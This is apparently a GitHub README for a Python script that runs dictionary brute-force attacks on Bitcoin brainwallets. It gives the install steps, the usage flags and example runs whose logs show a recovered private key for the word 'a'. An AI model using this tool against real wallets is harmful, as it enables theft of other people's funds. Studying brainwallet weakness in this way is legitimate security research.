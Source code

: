 bruteforce-bitcoin-brainwallet
==============================

A python script that performs a bruteforce dictionary attack on brainwallets. It takes a dictionary input file
 and converts each word into a bitcoin address. A lookup of this address is done either using a local [Abe](https://github.com/jtobey/bitcoin-abe)
 instance or blockchain.info to see if any bitcoins have ever been received by this address. If so, it will do one more check
 to see the current balance for the bitcoin address.

#Requirements
* Python 2.7, requests, coinkit
<pre>
pip install -r requirements.txt
</pre>

#Usage
```
usage: bbb.py [-h] -t TYPE -d DICT_FILE -o OUTPUT_FILE [-s SERVER] [-p PORT]
              [-c CHAIN] [--version]

A script to perform bruteforce dictionary attacks on brainwallets.

optional arguments:
  -h, --help      show this help message and exit
  -t TYPE         Blockchain lookup type (abe|blockchaininfo)
  -d DICT_FILE    Dictionary file (e.g. dictionary.txt)
  -o OUTPUT_FILE  Output file (e.g. output.txt)
  -s SERVER       Abe host address (e.g. localhost)
  -p PORT         Abe port (e.g. 2751)
  -c CHAIN        Abe chain string (e.g. Bitcoin)
  --version       show program's version number and exit
```

#Abe Example
```
python bbb.py -t abe -d dictionary.txt -o found.txt -s 127.0.0.1 -p 2751 -c Bitcoin
2014-04-03 21:24:37,552 INFO   line 59   Opening session for abe
2014-04-03 21:24:37,552 INFO   line 17   Opening new session to http://127.0.0.1:2751
2014-04-03 21:24:37,563 INFO   line 171  Starting new HTTP connection (1): 127.0.0.1
2014-04-03 21:24:37,749 INFO   line 63   Opening dictionary file dictionary.txt for reading
2014-04-03 21:24:37,749 INFO   line 72   Opening output file found.txt for writing
2014-04-03 21:24:37,750 INFO   line 75   dictionary word, received bitcoins, wallet address, private address, current balance
2014-04-03 21:24:38,490 INFO   line 101  a,0.01000000,1HUBHMij46Hae75JPdWjeZ5Q7KaL7EFRSD,ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb,0.00000000
```

#Blockchain.info Example
```
python bbb.py -t blockchaininfo -d dictionary.txt -o found.txt
2014-04-03 21:25:45,568 INFO   line 59   Opening session for blockchaininfo
2014-04-03 21:25:45,568 INFO   line 17   Opening new session to http://blockchain.info
2014-04-03 21:25:45,591 INFO   line 171  Starting new HTTP connection (1): blockchain.info
2014-04-03 21:25:45,817 INFO   line 63   Opening dictionary file dictionary.txt for reading
2014-04-03 21:25:45,817 INFO   line 72   Opening output file found.txt for writing
2014-04-03 21:25:45,818 INFO   line 75   dictionary word, received bitcoins, wallet address, private address, current balance
2014-04-03 21:25:48,403 INFO   line 101  a,0.01000000,1HUBHMij46Hae75JPdWjeZ5Q7KaL7EFRSD,ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb,0.00000000
```